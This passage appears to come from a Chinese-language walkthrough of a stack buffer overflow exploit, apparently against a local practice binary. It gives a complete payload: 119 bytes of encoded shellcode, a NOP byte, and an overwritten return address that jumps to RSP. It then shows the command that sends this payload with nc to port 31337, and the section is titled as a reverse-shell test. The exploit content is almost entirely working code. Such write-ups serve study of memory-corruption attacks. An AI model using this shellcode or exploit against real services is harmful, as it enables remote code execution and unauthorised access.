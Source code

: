 ```plain
[shellcode] + [\x90] + [\xfb\x0c\x40\x00]
=> 119 + 1 + 4 

//最后结果：拼接 [\x90] 和 [\xfb\x0c\x40\x00]
\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05\xef\xff\xff\xff\x48\xbb\x27\x14\xe6\xca\x31\xf4\x33\x97\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x4d\x3d\xbe\x53\x5b\xf6\x6c\xfd\x26\x4a\xe9\xcf\x79\x63\x7b\x2e\x25\x14\xea\x30\xf1\x5c\x63\x16\x76\x5c\x6f\x2c\x5b\xe4\x69\xfd\x0d\x4c\xe9\xcf\x5b\xf7\x6d\xdf\xd8\xda\x8c\xeb\x69\xfb\x36\xe2\xd1\x7e\xdd\x92\xa8\xbc\x88\xb8\x45\x7d\x88\xe5\x42\x9c\x33\xc4\x6f\x9d\x01\x98\x66\xbc\xba\x71\x28\x11\xe6\xca\x31\xf4\x33\x97\x90\xfb\x0c\x40\x00
```

#### 3.7 测试反弹

RIP 地址变为了我们构建的：xfb\\x0c\\x40\\x00（地址 0x400cfb 会跳转到 RSP 位置）,RSP 位置放的是 120 字符长度的 shellcode

```plain
echo '\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05\xef\xff\xff\xff\x48\xbb\x27\x14\xe6\xca\x31\xf4\x33\x97\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x4d\x3d\xbe\x53\x5b\xf6\x6c\xfd\x26\x4a\xe9\xcf\x79\x63\x7b\x2e\x25\x14\xea\x30\xf1\x5c\x63\x16\x76\x5c\x6f\x2c\x5b\xe4\x69\xfd\x0d\x4c\xe9\xcf\x5b\xf7\x6d\xdf\xd8\xda\x8c\xeb\x69\xfb\x36\xe2\xd1\x7e\xdd\x92\xa8\xbc\x88\xb8\x45\x7d\x88\xe5\x42\x9c\x33\xc4\x6f\x9d\x01\x98\x66\xbc\xba\x71\x28\x11\xe6\xca\x31\xf4\x33\x97\x90\xfb\x0c\x40\x00' | nc localhost 31337
```

[![](assets/1703831476-f8e3ad05fd77c5a59b8ee6fe09f2c85f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224856-0fcadb0c-a4c7-1.png)
